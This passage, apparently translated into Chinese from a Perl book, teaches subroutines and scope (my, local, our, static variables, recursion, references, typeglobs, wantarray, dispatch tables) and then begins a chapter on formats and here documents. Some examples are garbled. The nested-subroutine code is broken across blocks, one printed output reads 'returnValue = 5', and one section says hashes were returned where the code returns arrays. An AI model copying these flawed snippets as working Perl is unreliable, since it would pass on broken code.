*你好！*

请看这些使用了 **my**（注意 **my** 只能用于标量、数组和哈希）的示例：

```
my $variable;
my ($variable1, $variable2);
my $variable = 5;
my @array = (1, 2, 3);
my %hash;
```

如果你使用 **my** 声明多个变量，应该将它们括在括号内。特别是，你应该避免以下错误——这段代码只使用 **my** 声明了**一个**变量 **$variable1**：

```
my $variable1, $variable2 = 5;
```

词法作用域的变量不限于单个代码块；相关的控制表达式也属于词法作用域。例如，使用 **my** 声明的变量 **$variable1** 可用于此 **if** 语句中的所有控制块，它们被认为处于相同的作用域级别（但请注意，如果你的 Perl 版本早于 5.004，这将不起作用）：

```
$testvalue = 10;

if ((my $variable1 = 10) > $testvalue ) {

    print "Value, $variable1, is greater than the test value.\n";

} elsif ($variable1 < $testvalue) {

    print "Value, $variable1, is less than the test value.\n";

} else {

    print "Value, $variable1, is equal to the test value.\n";

}
```

*值 10 等于测试值。*

> 提示：当你重复调用子程序时，使用 **my** 声明的变量会在每次重新进入作用域时重新初始化。要使变量在多次调用子程序之间保持其值，请参阅本章后面的“创建持久（静态）变量”主题。

这就是为什么使用 **my**——为了限制变量的作用域。你将在本书中随处可见 **my** 关键字；例如，请参阅本章后面的“递归调用子程序”主题，其中有一个使用 **my** 对变量进行局部化至关重要的例子。

> 注意：有关 **my** 的更多信息，请参阅本章后面的“确定 **my** 与 **local** 的区别”主题。

## 要求词法作用域变量

“在严格的编程语言中，”编程正确性沙皇说，“你必须在使用变量之前声明所有变量，这样当你拼错变量名时，就不会意外创建新变量。”“我从没想过你会犯错，”你说。“当然，我不会，”PCC（编程正确性沙皇）说，“我只是想问，在 Perl 中，你是否必须在使用变量之前声明它们。”“不，”你说，“最接近的做法是使用 **use strict 'vars'** 编译指令。”

你可能希望 Perl 强制要求你使用的任何变量都是词法作用域的（即，特别是使用 **my** 声明的，而不是那些仅通过在代码中引用它们而存在的变量），如果是这样，你可以使用编译指令 **use strict 'vars'**。如果你这样做，从那时起到包含块或作用域结束的任何对变量的引用，都必须引用一个特定声明的词法变量，或者必须用其包名限定。这里的目的是避免因拼错变量名而意外创建新变量的错误。

> 提示：内部块可以使用 **no strict 'vars'** 移除词法作用域要求。

## 使用 **local** 创建临时变量

“我刚从 Perl 博物馆回来，”新手程序员说，“我在那里演示如何创建子程序。但是，发生了一件有趣的事——我无法让 **my** 关键字在 Perl 4 上工作。”“那是因为它只在 Perl 5 中被创建，”你说，“对于更早的版本，你必须使用替代的局部化器。”“那是什么？”NP（新手程序员）问。你说：“**local** 关键字。”

除了使用 **my** 创建的词法作用域变量外，你还可以使用 **local** 关键字创建*动态*作用域变量。使用 **local** 关键字，你可以创建一个全局变量的临时副本，并且可以使用该临时副本，直到它超出作用域（此时全局变量的值将恢复）。

你经常会看到笼统的说法，认为你应该使用 **my** 而不是 **local**，但事实是，为了执行某些任务，例如创建像 **$\_** 这样的特殊变量的本地副本，或者仅更改数组或哈希中的一个元素，或者本地使用文件句柄和 Perl 格式，你必须使用 **local** 而不是 **my**。

请注意，**local** 关键字不会创建一个新变量。它只是创建一个全局变量的本地副本（并保存全局变量以便稍后当本地副本超出作用域时恢复），然后你可以使用该副本。看看这些使用 **local** 的示例：

```
local $variable1;
local ($variable1, $variable2);
local $variable1 = 5;
local *FILEHANDLE;
```

使用 **local** 会复制列出的变量，并使其对于包含块、**eval** 语句或 **do** 语句是局部的——并且对于从该块内调用的任何子程序也是局部的。如果你列出多个元素，它们必须放在括号中；所有元素必须是合法的左值。

考虑这个使用 **local** 的例子：

```
sub printfOK
{
    local $localvalue = $value;

    if ($localvalue > 10 ) {
        print "Value is $value.\n";
    } else {
        print "Value is too small.\n";
    }
}

$value = 10;
printfOK;

$value = 12;
printfOK;
```

```
Value is too small.
Value is 12.
```

这段代码看起来和运行起来，都好像我使用了 **my** 而不是 **local**。那么 **local** 和 **my** 有什么区别呢？请参阅下一个主题了解详情。

> **提示：** 当你重复调用子程序时，使用 **my** 声明的变量会在每次重新进入作用域时重新初始化。要使变量在多次调用子程序之间*保持*其值，请参阅本章后面的“创建持久（静态）变量”主题。

## 确定 my 和 local 的区别

“嗯，”新手程序员说，“Perl 同时支持 **my** 和 **local**。我应该使用哪个？”“它们各有用途，”你说，“最好先弄点咖啡来。”

**my** 和 **local** 的根本区别在于，**my** 创建一个新变量，而 **local** 保存一个现有变量的副本。这通常没有太大区别，但请看下面的下一个例子，其中我使用一个名为 **printem** 的子程序来显示一个名为 **$value** 的变量中的值。

在这里，我从顶层作用域和从名为 **makelocal** 的子程序内部都调用了 **printem**。需要注意的是，在 **makelocal** 内部时，对 **$value** 所做的更改会反映在整个程序中，或者从 **makelocal** 调用其他子程序时也是如此。在这种情况下，尽管 **printem** 在 **makelocal** 的作用域之外，但当从 **makelocal** 调用时，它仍然能看到 **makelocal** 中代码放入 **$value** 的值：

```
$value = 1;

sub printem() {print "\$value = $value\n"};

sub makelocal()
{
    local $value = 2;
    printem;
}

makelocal;
printem;

$value = 2
$value = 1
```

因为 **local** 是一个运行时而非编译时构造，所以当你通过调用子程序离开 **local** 的作用域时，使用 **local** 对全局变量所做的任何更改仍然会存在。如果你使用 **my**，就不会发生这种全局副作用（事实上，**my** 是在 Perl 5 中被创建的，正是为了处理这种情况）：

```
$value = 1;

sub printem() {print "\$value = $value\n"};

sub makelocal()
{
    my $value = 2;
    printem;
}

makelocal;
printem;

$value = 1
$value = 1
```

通常，你应该使用 **my** 而不是 **local**。一方面，**my** 执行得更快，另一方面，它没有全局副作用。然而，请注意，你必须使用 **local** 来局部化任何以 **$** 开头的特殊变量。

与使用 **local** 声明的变量不同，使用 **my** 声明的变量存储在私有符号表中，而不是整个包符号表的一部分。你可以在此示例中看到这一点，其中我创建了三个变量——一个全局变量 **$value1**；一个使用 **my** 声明的 **$value2**；以及一个使用 **local** 声明的 **$value3**——我像这样显示包符号表中的所有符号。请注意，使用 **my** 声明的 **$value2** *不*在包的符号表中：

```
$value1 = 1;

my $value2 = 2;

local $value3 = 3;

print join(", ", keys %::);
```

```
FileHandle::, @, stdin, STDIN, ", stdout, STDOUT, $, _<perlmain.c, ENV,
value1, /, value3, ARGV, 0, _<o.pl, STDERR, stderr, , DynaLoader::, ,
main::, DB::, INC,
```

使用 **local** 声明的变量存储在运行时栈上，当这些变量超出作用域时，它们会被恢复。


## 使用 `our` 设置作用域

新手程序员又回来了，问道：“我总听说这个 `our` 声明是什么？那是不是和 `my` 一样？”“不完全是，”你说；“这是在 Perl v5.6.0 中新增的，用于帮助处理全局变量。”“快说来听听，”新手程序员说。

`our` 声明将变量声明为在外围块、文件或 `eval` 语句中有效的全局变量。这类声明与 `my` 语句的不同之处在于，它不会创建局部变量。通过一个例子可以最好地说明这一点，这个例子使用了*包*，你将在第 17 章中看到。包定义了自己的作用域，因此如果你在包中这样声明一个变量：

```
package package1;
$value = 5;
```

那么它在另一个包中将不可用，像这样——注意这里的结果是 `$value =`，因为在第二个包中 `$value` 不在作用域内：

```
package package1;
$value = 5;

package package2;
print "\$value = " . $value;

$value =
```

另一方面，你可以使用 `our` 声明使 `$value` 在整个文件及其所有包中成为全局变量：

```
package package1;
our $value;
$value = 5;

package package2;
print "\$value = " . $value;
```

运行这个示例，你会看到 `$value` 现在在第二个包中也处于作用域内：

```
returnValue = 5
```

## 创建持久（静态）变量

> “我遇到了一个问题，”新手程序员说，“我正在编写一个名为 `incrementcount` 的子例程，它应该增加一个内部计数器并返回新值。但是，”新手程序员说，“每次我调用这个子例程，它总是返回 1。”“你得到这个结果是因为你的子例程中的变量在每次调用子例程时都会被重新初始化，”你说，“但让我告诉你一种解决方法。”

有时你可能希望子例程中的变量在调用之间保留其值。但是，如果你在子例程中使用 `my` 或 `local` 声明变量，那么每次进入子例程时，这些变量都会被重置，如下面的计数示例所示，其中 `$count` 在每次调用子例程 `incrementcount` 时都被重置为 0，然后递增到 1，因此我们得到四个 1 而不是 1, 2, 3, 4：

```
sub incrementcount {
    my $count;
    return ++$count;
}

print incrementcount . "\n";
print incrementcount . "\n";
print incrementcount . "\n";
print incrementcount . "\n";
```

```
1
1
1
1
```

将 `$count` 设为静态变量，如 C 语言中的做法，将解决这个问题，因为静态变量在子例程调用之间保留其值。然而，Perl 并不直接支持静态变量；全局变量默认是静态的，但使用 `my` 声明的子例程变量则不是。

不过，如果你有点技巧，你可以绕过这个问题。只要词法变量仍在作用域内，它们就不会被重置，因此你可以通过让它们保持在作用域内来解决这个问题。你可以这样做，将 `my` 声明放在子例程外部，并将代码（声明和子例程）放在花括号中，使其成为与子例程调用同级的一个块：

```
{
    my $count = 0;
    sub incrementcount {
        return ++$count;
    }
}

print incrementcount . "\n";
print incrementcount . "\n";
print incrementcount . "\n";
print incrementcount . "\n";
```

```
1
2
3
4
```

你也可以将所有内容放在一个 `BEGIN` 块中，该块在程序加载时立即运行（有关 `BEGIN` 的更多详细信息，请参见第 17 章）：

```
sub BEGIN
{
    my $count = 0;
    sub incrementcount {
        return ++$count;
    }
    print incrementcount . "\n";
    print incrementcount . "\n";
    print incrementcount . "\n";
    print incrementcount . "\n";
}
```

```
1
2
3
4
```

| 相关解决方案 | 参见页码 |
| --- | --- |
| 创建包构造器：`BEGIN` | 735 |

## 获取子例程名称和调用者

> “我正在编写一些调试代码来打印诊断信息，”新手程序员说，“我想将其复制到代码的多个区域，而不做大量更改。我能获取当前子例程的名称，以便也能打印出来并知道代码在哪里执行吗？”“是的，你可以，”你说，“使用 `caller` 函数。”

`caller` 函数返回有关当前子例程上下文的信息。通常，你像这样使用 `caller`：

```
caller EXPR
caller
```

在标量上下文中，如果在子例程、`eval` 或 `require` 中使用此函数，则返回调用代码的包名，否则返回未定义值。在列表上下文中，此函数返回如下列表：

```
($package, $filename, $line) = caller;
```

如果你包含 `EXPR`，`caller` 将返回调试器用于打印堆栈跟踪的附加信息。`EXPR` 的值指示在回到当前之前要回溯多少个堆栈帧（即子例程调用）。返回的内容如下：

```
($package, $filename, $line, $subroutine,
$hasargs, $wantarray, $evaltext, $is_require) = caller($s);
```

在这个例子中，我调用一个子例程 `addem`，并获取有关当前子例程的一些信息：

```
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
    print join(", ", caller);
}
```

```
returnValue = &addem(2, 2);
```

```
main, calls.pl, 9
```

在下一个例子中，我回溯一个堆栈帧，从而确定哪个子例程调用了当前子例程（即名为 `callingfunction` 的子例程）：

```
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
    print join(", ", caller 1);
}

sub callingfunction
{
    $returnValue = addem(2, 2);
}

callingfunction;
```

```
main, calls.pl, 14, main::callingfunction, 1,
```

## 递归调用子例程

“好吧，”编程正确性沙皇说，“你可以在 Perl 子例程中做很多事情；它几乎和 C 一样好。”“嗯，”你说。“但是，”编程正确性沙皇问，“你能做递归吗？”“当然，”你说，“没问题。就像 C 一样，因为众所周知，C 几乎和 Perl 一样好。”

你可以在 Perl 中递归调用子例程，也就是说，一个子例程可以调用它自身。通常的递归子例程示例是计算阶乘（例如，5! = 5 * 4 * 3 * 2 * 1），所以让我们开始吧。

在这种情况下，我将计算阶乘的问题分成递归阶段；在每个阶段，我将传递的值乘以计算该值减一的阶乘结果。只有当子例程被调用的值为 1 时，代码才返回该值，无需进一步计算：

```
sub factorial
{
    my $value = shift (@_);

    return $value == 1 ? $value : $value * factorial ($value - 1);
}

$result = factorial(6);

print $result;
```

```
720
```

如你所见，这个子例程可以递归调用它自身。事实上，除非你要求计算 1 的阶乘（或传递非正值或非整数，例如浮点值——在这种情况下，循环将一直进行，直到你的机器耗尽内存，此时 Perl 将用 **Out of memory!** 消息通知你），否则它必须这样做才能计算其返回值。

递归是那些真正值得使用 `my` 使变量局部化的情况之一。如果你不使用 `my`，请看看当前示例的代码；在这种情况下，你正在持续设置和修改一个名为 `$value` 的*全局*变量，每个后续阶段都使用它乘以下一个更深层级的返回值。发生的情况是，最深阶段将 `$value` 设置为 1 并返回该值，并且每个后续阶段也乘以相同的值，因为每个阶段的 `$value` 都已被该变量的当前全局设置覆盖。这意味着只有在省略 `my` 关键字时，你才会得到结果 1：

```
sub factorial
{
    $value = shift (@_);

    return $value == 1 ? $value : $value * factorial ($value - 1);
}

$result = factorial(6);

print $result;
```

```
1
```

## 嵌套子例程

“好吧，”编程正确性沙皇说，“现在我抓住你了。也许 Perl 支持递归，但*嵌套*子例程呢？”“当然，”你说，“没问题。”

Perl 现在支持嵌套子例程，也就是说，你可以在子例程内部定义子例程。在这个例子中，我定义一个名为 `outer` 的子例程，然后在该子例程内部定义一个名为 `inner` 的子例程（请注意，在 `outer` 子例程中使用 `my` 声明的变量在 `inner` 子例程中也可用，并且我可以在 `inner` 子例程中以及 `outer` 子例程中声明局部变量）：

```
sub outer
{
    my $s = "Inside the inner subroutine.\n";

    sub inner
    {
        my $s2 = $s;
        print $s2;
    }
}
```


```
inner();
}

outer();

在内部子例程中。

## 按引用传递

你遇到一个问题。你正在开发你的程序 SuperDuperDataCrunch，想要将两个数组传递给一个子例程。然而，当这两个数组到达子例程时，它们都已在 `@_` 中被展平为一个长列表。你能将多个数组——以及哈希表——传递给子例程并保持它们的独立性吗？

是的，你可以。通常，传递数组或哈希表会将它们的元素“展平”为一个长列表，如果你需要发送两个或多个不同的数组或哈希表，这就成了问题。为了保持它们的完整性，你可以传递数组或哈希表的*引用*。（有关引用的更多细节，请参阅第9章。引用就像一个项目的内存地址，非常类似于其他语言中的指针。）

让我们看一个例子。在这个例子中，我将处理两个数组：

```
@a = (1, 2, 3);
@b = (4, 5, 6);
```

假设你想编写一个子例程 **addem**，来逐个元素地相加这样的数组（无论数组的长度是多少）。为此，你需要使用数组的引用来调用 **addem**，通过在数组名前加上反斜杠来获取引用：

```
@array = addem(\@a, \@b);
```

在 **addem** 中，你获取数组的引用，然后像这样循环遍历数组（这段代码在第9章会变得更清晰），返回一个包含传递的数组逐元素之和的数组：

```
sub addem
{
    my ($ref1, $ref2) = @_;

    while (@{$ref1}) {
        unshift @result, pop(@{$ref1}) + pop(@{$ref2});
    }

    return @result;
}
```

我这样使用 **addem** 来相加这两个数组：

```
@array = addem(\@a, \@b);
print join(', ', @array);
```

```
5, 7, 9
```

请注意，按引用传递还让你可以直接引用你传递的项目中的数据，这意味着你可以从被调用的子例程中修改该数据。在 Perl 中，标量已经是按引用传递的，所以你不需要显式地传递它们的引用就可以在子例程中修改它们的值。

## 按引用返回

你可以通过按引用传递将两个数组传递给子例程并保持它们的独立性。如果你想返回两个数组并保持它们的独立性呢？你能用引用来做到这一点吗？

是的，你可以。如果你正常返回两个数组，它们的值会被展平为一个长列表。然而，如果你返回数组的引用，你可以取消这些引用的引用并找到原始数组。

看看这个例子。在这个例子中，我正在编写一个按引用返回两个数组的子例程，也就是说它返回一个包含两个数组引用的列表：

```
sub getarrays
{
    @a = (1, 2, 3);
    @b = (4, 5, 6);

    return \@a, \@b;
}
```

你可以取消这些引用的引用（有关引用的更多细节，请参阅第9章）以访问数组本身（当然，请注意，你不应该返回使用 **local** 或 **my** 声明的局部变量的引用），像这样：

```
($aref, $bref) = getarrays;

print "@$aref\n";
print "@$bref\n";
```

```
1 2 3
4 5 6
```

就是这样。现在，你已经从子例程中“返回”了两个哈希表。同样的技巧也适用于哈希表。要了解按引用传递，请参见前面的主题。

## 传递符号表条目（类型glob）

传递类型glob 曾经是 Perl 中按引用传递的唯一方式，现在它仍然是传递文件句柄等项目的最佳方式。类型glob 实际上是符号表条目，所以当你传递一个类型glob 时，你传递的是对存储在特定名称下的所有类型数据的引用。这个例子使用类型glob 而不是引用来实现本章前面“按引用传递”主题中的数组相加子例程 **addem**：

```
@a = (1, 2, 3);
@b = (4, 5, 6);

sub addem {
    local(*array1, *array2) = @_;

    while (@array1) {
        unshift @result, pop(@array1) + pop(@array2);
    }

    return @result;
}

@result = addem(*a, *b);
print join(", ", @result);
```

```
5, 7, 9
```

如果你正在传递文件句柄，你可以传递一个类型glob，比如 **\*STDOUT**，但类型glob 引用更好，因为当像 **use strict refs** 这样的编译指示生效时，它们仍然有效。（编译指示是给编译器的指令；这个指示检查符号引用。有关更多信息，请参阅第9章。）在这个例子中，我将 **STDOUT** 传递给一个子例程：

```
sub printhello {
    my $handle = shift;
    print $handle "Hello!\n";
}
printhello(\*STDOUT);
```

*Hello!*

## 使用 `wantarray` 检查所需的返回上下文

新手程序员打电话来。“我有个问题，”新手程序员说。“大老板还在那个经济节约的调子上，想让我少写些子例程。现在，我得写一个子例程，它必须在标量和列表上下文中都能工作，但它在不同上下文中必须返回不同的结果。我该怎么做？”“这很简单，”你说，“你使用 **wantarray** 函数。”

子例程可以返回标量或列表值，这意味着它们可以从任一类型的上下文中被调用。如果你想处理两种上下文，你需要某种方式知道要返回什么类型的值，你可以使用 **wantarray** 函数做到这一点。

如果你子例程的返回值将在列表上下文中被解释，**wantarray** 函数返回真；否则返回假。在这个使用 **wantarray** 的例子中，我将传递给名为 **swapxy** 的子例程的字符串中所有出现的字母 *x* 替换为 *y*。如果返回上下文是列表上下文，我返回一个数组；否则，我返回一个标量值：

```
sub swapxy
{
    my @data = @_;
    for (@data) {
        s/x/y/g;
    }
    return wantarray ? @data : $data[0];
}
```

让我向你展示如何使用 **swapxy**；在这里，我使用一个列表调用那个子例程并得到一个列表作为返回：

```
$a = "xyz";
$b = "xxx";

($a, $b) = swapxy($a, $b);

print "$a\n";
print "$b\n";
```

```
yyz
yyy
```

## 创建内联函数

如果你的函数原型是 () —— 即它不接受任何参数 —— 那么该函数可能会被 Perl 编译器*内联*。内联函数会经过 Perl 优化以获得额外的速度，但此类函数受到很大限制，必须由常量或词法作用域的标量（没有其他引用）组成。此外，该函数不能使用 & 或 do 来引用，因为这些调用永远不会被内联。

例如，以下函数将被内联（Perl 的 **exp** 函数返回 **e** —— 自然对数的底数 —— 的传递值次幂；请注意，**exp 1** 给出的 **e** 的值比第一个子例程中的常量值更好）：

```
sub e () {2.71828}
sub e () {exp 1}
```

## 模拟命名参数

“有些语言，”新手程序员说，“支持子例程调用中的命名参数。”“哦，是吗？”你问道。“是的，”新手程序员用力点头说，“我希望 Perl 也有这个功能。”“它有，”你说，“或者至少，它*可以*有。”

在某些语言中，你可以为传递给子例程的每个参数命名，这意味着你可以以任何顺序传递它们。在调用子例程时，你提供参数的名称和它的值，像这样：

```
addem(OPERAND1 => 2, OPERAND2 => 3).
```

使用哈希表，模拟命名参数很容易 —— 事实上，比你想象的更容易。你只需将 `@_` 赋给一个哈希表，然后使用参数名作为键来引用该哈希表中的值。看看这个例子：

```
sub addem
{
    my %hash = @_;

    return $hash{OPERAND1} + $hash{OPERAND2};
}
```

现在，你可以像这样使用命名参数调用该子例程：

```
print "The result is: " . addem(OPERAND1 => 2, OPERAND2 => 3);
```

*The result is: 5*

事实上，使用命名参数也使得支持默认值变得容易。你只需将各参数的默认值首先放入哈希表中，如果在子例程调用中给出了这些参数的值，那些值将覆盖默认值：

```
sub addem
{
    my %hash =
    (
        OPERAND1 => 2,
        OPERAND2 => 3,
        @_,
    );

    return $hash{OPERAND1} + $hash{OPERAND2};
}

print "The result is: " . addem(OPERAND1 => 3);
```

*The result is: 6*

## 覆盖内置子例程

当你覆盖一个子例程时，你给它一个新的定义。你可以覆盖子例程，包括 Perl 内置的函数，但只有当子例程是从模块导入时，你才能覆盖它（仅仅预先声明一个子例程在这里是不够的 —— 参见第17章中的主题“重新定义内置子例程”）。

然而，请注意，你可以使用 **subs** 编译指示（编译指示是给 Perl 编译器的指令）来使用导入语法预先声明子例程 —— 并且你可以
```


使用这些名称来覆盖内置函数。在这个例子中，我覆盖了 Perl 的 **exit** 函数，使其在用户真正想要退出时进行询问：

```
use subs 'exit';
sub exit
{
    print "Do you really want to exit?";
    $answer = <>;
    if ($answer =~ /^y/i) {CORE::exit;}
}
while (1) {
    exit;
}
```
请注意，为了在用户确实想要退出时真正终止程序，我使用了伪包 **CORE**，方式如下：**CORE::exit**。（在 Perl 中，你使用 :: 来限定符号名所属的包。）**CORE** 伪包始终保存着原始的内置函数，即使你覆盖了其中一个函数，你仍然可以通过 **CORE** 来访问它。

| 相关解决方案： | 所在页： |
|---|---|
| 重新定义内置子程序 | 748 |

## 创建匿名子程序

> “好吧，”编程正确性沙皇说，“你让我相信了，在 Perl 中使用子程序能做的事情和在 C 中一样多。”“更多，”你说。“更多？”PCC 问。“例如，”你说，“你可以创建*匿名*子程序。”

Perl 允许你以这种方式创建匿名（即未命名的）子程序——也称为代码引用或简称代码引用——我在此创建一个对子程序的引用（有关引用的更多细节，请参阅第 9 章）：

```
$coderef = sub {print "Hello!\n";};
```
请注意，你需要用分号来结束这条语句，而在标准子程序定义末尾则不需要。你可以调用这个子程序，使用 **&** 来表示你正在调用一个子程序，并将引用放在花括号中：

```
&{$coderef};
```
*Hello!*

匿名子程序在许多方面都很方便。例如，你可以让子程序返回子程序。看看下一个例子；有时，你需要在 Perl 中使用子程序的引用，就像本例中一样，我通过将匿名子程序赋值给 __WARN__ 信号处理器来确保 Perl 不显示错误消息，如下所示（更多细节请参见 CD-ROM 上的第 e1 章）：

```
local $SIG{__WARN__} = sub {};
```

## 创建子程序分派表

子程序分派表保存着对子程序的引用，你可以通过索引或键来指定要调用的子程序。当你有一个数据集，其中的项目需要由多个子程序来处理时，这个功能非常有用。

例如，假设有两个子程序用于将温度从摄氏度转换为华氏度，以及反向转换：

```
sub ctof         #摄氏度转华氏度
{
  $value = shift(@_);
  return 9 * $value / 5 + 32;
}

sub ftoc         #华氏度转摄氏度
{
  $value = shift(@_);
  return 5 * ($value - 32) / 9;
}
```
要将它们放入分派表，你可以像这样存储这些子程序的引用（有关引用的更多细节，请参阅第 9 章）：

```
$tempconvert[0] = \&ftoc;
$tempconvert[1] = \&ctof;
```
现在，你可以使用索引来选择要调用的子程序，如下所示（注意，你可以通过将参数放在子程序引用后的括号中来传递给这样调用的子程序）：

```
print "Zero centigrade is " . &{$tempconvert[1]}(0) . " fahrenheit.\n";
```
*Zero centigrade is 32 fahrenheit.*

## 重新定义子程序

让我告诉你一件在 Perl 中可以做但在大多数编程语言中做不到的事情。你可以有效地重新定义一个子程序，因为你有权访问符号表。

让我们看一个例子。首先，我将创建一个子程序 **sub1**，它打印你传递给它的文本，并在末尾添加 "**there!\n**"（例如，传递 **Hello** 会使 **sub1** 显示 **Hello there!\n**）：

```
sub sub1
{
    $text = shift;
    print "$text there!\n";
}
```
这个新的子程序 **sub2**，它打印你传递给它的文本，并在末尾添加 "**everyone!\n**"（例如，传递 **Hello** 会使 **sub2** 显示 **Hello everyone!\n**）：

```
sub sub2
{
    $text = shift;
    print "$text everyone!\n";
}
```
现在，我将调用 **sub1**，重新定义它使其引用 **sub2**，然后再次调用它。结果如下：

```
sub1("Hello");

*sub1 = \&sub2;         #重新定义 sub1

sub1("Hello");
```
> *Hello there!*
*Hello everyone!*

如你所见，**sub1** 已被重新定义以引用 **sub2**；我只需将一个对 **sub2** 的引用赋值给 **sub1** 的类型glob（即符号表条目）即可。

## 第 8 章

### 格式与字符串处理

| 如果你需要以下方面的即时解决方案： | 请参见页： |
|---|---|
| 显示未格式化文本：Perl **here** 文档 | 326 |
| 在代码中缩进 **here** 文档 | 327 |
| 创建格式化文本 | 328 |
| 格式：左对齐文本 | 330 |
| 格式：右对齐文本 | 331 |
| 格式：居中文本 | 331 |
| 格式：打印数字 | 332 |
| 格式：格式化多行输出 | 333 |
| 格式：使用文本切片进行格式化多行输出 | 334 |
| 格式：未格式化多行输出 | 335 |
| 格式：页首输出 | 336 |
| 格式：使用格式变量 | 337 |
| 格式：将格式化文本打印到文件 | 338 |
| 格式：创建多页报告 | 340 |
| 格式：底层格式化 | 341 |
| 字符串处理：使用 **lc** 和 **uc** 转换大小写 | 342 |
| 字符串处理：使用 **lcfirst** 和 **ucfirst** 转换首字母大小写 | 343 |
| 字符串处理：使用 **index** 和 **rindex** 搜索字符串 | 344 |
| 字符串处理：使用 **substr** 获取子字符串 | 345 |
| 字符串处理：使用 **length** 获取字符串长度 | 346 |
| 字符串处理：打包和解包字符串 | 347 |
| 字符串处理：使用 **sprintf** 格式化字符串 | 350 |
| 字符串处理：比较字符串 | 352 |
| 字符串处理：使用 **ord** 和 **chr** 访问 Unicode 值 | 354 |
| 字符串处理：逐字符处理字符串 | 356 |
| 字符串处理：反转字符串 | 357 |
| 字符串处理：使用 **crypt** 加密字符串 | 357 |
| 字符串处理：使用引用运算符 | 359 |
| q// | 361 |
| qq// | 361 |
| qr//imosx | 361 |
| qx// | 363 |
| qw// | 364 |
| POD：普通的旧式文档 | 365 |
| POD：使用 POD 指令创建 POD | 366 |
| POD：使用 POD 命令格式化文本 | 368 |
| POD：在 Perl 代码中嵌入 POD | 369 |

## 深入探讨

Perl 擅长的领域之一就是处理文本（这是一件好事，因为该语言本身不包含图形功能），本章将涵盖这个主题。本章不涉及正则表达式和模式匹配；相关内容请参阅第 6 章。正则表达式在 Perl 中是一个庞大的主题，但那只是处理文本故事的一部分。

在本章中，我们将探讨 Perl 处理文本的多种方式，包括 Perl 格式、**here** 文档、“普通的旧式文档”（POD）、字符串函数（如 **substr**，用于处理传递给它的字符串的子字符串）、直接的 Unicode 值，以及我们对引用运算符（如 **qw** 和 **qr**）的深入考察。

## Perl 格式

当涉及到生成用于显示的输出时，Perl 提供了一种创建简单报告和图表的工具：Perl 格式。事实上，使用格式对文本输出进行格式化以生成报告曾经是 Perl 的一个主要部分（请记住 Perl 是“实用提取和报告语言”的缩写）。

使用 Perl 格式，你可以指定你的输出在控制台上的显示方式：你可以右对齐文本、居中文本或左对齐文本。你也可以使用格式写入文件。你可以控制各种打印字段的宽度以及它们在显示行中的位置。Perl 格式非常基础——例如，不支持样式表——但它们在 CGI 编程中经常用于创建预格式化文本，所以我们将在此探讨它们。

你声明格式的方式与声明包和子程序相同。要声明一个格式，你需要列出要为其创建格式的文件句柄，然后列出由 @、^、<、| 等字符组成的“模式行”，绘制一个“模式”来指示你希望该行呈现的样子。你在模式行之后跟一行，给出你希望显示的数据项。你用一个点（.）结束格式声明，并通过使用 **write** 函数来显示格式化数据。

在这个例子中，我左对齐一个数据项，右对齐另一个；模式行（即 @<<<<<<<<<<<<<@>>>>>>>>>>>>>>>>）的长度决定了相应输出行的长度：

第8章 格式与字符串处理

```perl
format STDOUT =
@<<<<<<<<<<<<@>>>>>>>>>>>>
$text1       $text2
.
```

请注意，我以一个点号（.）结束了格式定义。如果不这样做，Perl 将无法识别格式声明的结束位置，会毫无察觉地继续执行你的代码。

在上面的格式中，我要求 Perl 通过设置两个格式*字段*，以格式化的方式显示两个变量 **$text1** 和 **$text2** 的内容。你可以用 @ 字符作为字段的起始标记，因此你可以看到这个格式中两个字段的起始位置。你还可以分别使用 < 和 > 字符来表示左对齐和右对齐。因此，在这个例子中，格式包含两个字段——一个左对齐，一个右对齐。

Perl 格式在字符间距方面非常精确，它假设你使用的是等宽字体，即每个字符具有相同的宽度。这里的格式行中的每个字符都对应格式化输出中的实际列，因此你可以逐字符地设置输出的间距。在这个例子中，这意味着我可以精确设定要打印的标量的显示位置。

下一步是给这些标量赋予一些值，如下所示，我为它们赋了一些字符串值（我们将在本章中了解如何格式化和显示数字）：

```perl
$text1 = "Hello";
$text2 = "there!";
```

最后，使用 **write** 函数输出格式化后的文本。在这个例子中，我将直接写入 **STDOUT**，它默认对应终端：

```perl
write;                 #Uses STDOUT by default.

Hello                  there!
```

如你所见，**$text1** 和 **$text2** 中的字符串已显示在两个格式字段中——一个左对齐，一个右对齐。当我将它们并排放在一起时，你可以看到输出与格式行的匹配程度：

```
@<<<<<<<<<<<<@>>>>>>>>>>>>
Hello                  there!
```

如果我改用下面的格式行：

```perl
format STDOUT =
@<<<<<<<<<<<@<<<<<<<<<<<<<<<<<<<<
$text1     $text2
.
$text1 = "Hello";
$text2 = "there!";
```

那么两个字段都会像这样左对齐：

```perl
write;                   #Uses STDOUT by default.

Hello      there!
```

你可以看到这个输出与新的格式行逐字符地匹配得非常好：

```
@<<<<<<<<<<<@<<<<<<<<<<<<<<<<<<<<
Hello        there!
```

除了左对齐和右对齐文本之外，你还可以通过使用如下的格式行在格式字段中居中文本：

```perl
format STDOUT =
@|||||||||||||||||||||||||
```

此外，除了使用标量变量之外，你还可以显示函数的返回值。在下一个例子中，我使用 **sprintf** 函数来格式化并显示一个数字：

```perl
format STDOUT =
@|||||||||||||||||||||||||
sprintf "%.4f", 3.1415
.

write;

          3.1415
```

如你所见，显示的值最终在其格式字段中居中显示。

我们将在本章中看到更多关于以这种方式格式化文本的细节。事实上，除了显示格式化文本之外，你还可以在 Perl 中显示非格式化文本——通过使用 Perl 的 **here** 文档——我将从这个主题开始讲解"即时解决方案"部分。

## **即时解决方案**

### **显示非格式化文本：Perl here 文档**

"天哪，"新手程序员说，"我在脚本中打印了很多东西，我已经厌倦了使用大量的 **print** 语句。""哦，是吗？"你问。"是的，"新手程序员说，"而且我经常忘记在一些行的末尾加上 **\n**，所以当文本打印出来时，就会变得乱七八糟。""那么，"你说，"你知道 **here** 文档吗？""什么文档？"新手程序员问道。

Perl 的 **here** 文档允许你按照在脚本中输入的样子来显示文本，提供了一种显示非格式化文本的简便方式（也就是说，Perl 在显示这些文本之前不会对其进行格式化处理）。

要在代码中启动一个 **here** 文档，你需要使用二字符组合 **<<**，后跟某种标记字符串；在这里，我将使用 **EOD** 表示"文档结束"（end of document）：

```perl
print <<EOD;
```

现在，我只需将非格式化文本直接放入脚本中，并以匹配的 **EOD** 结束：

```perl
print <<EOD;

This
is
a
"here"
document.
EOD
```

就这样。这个脚本显示如下文本：

```
This
is
a
"here"
document.
```

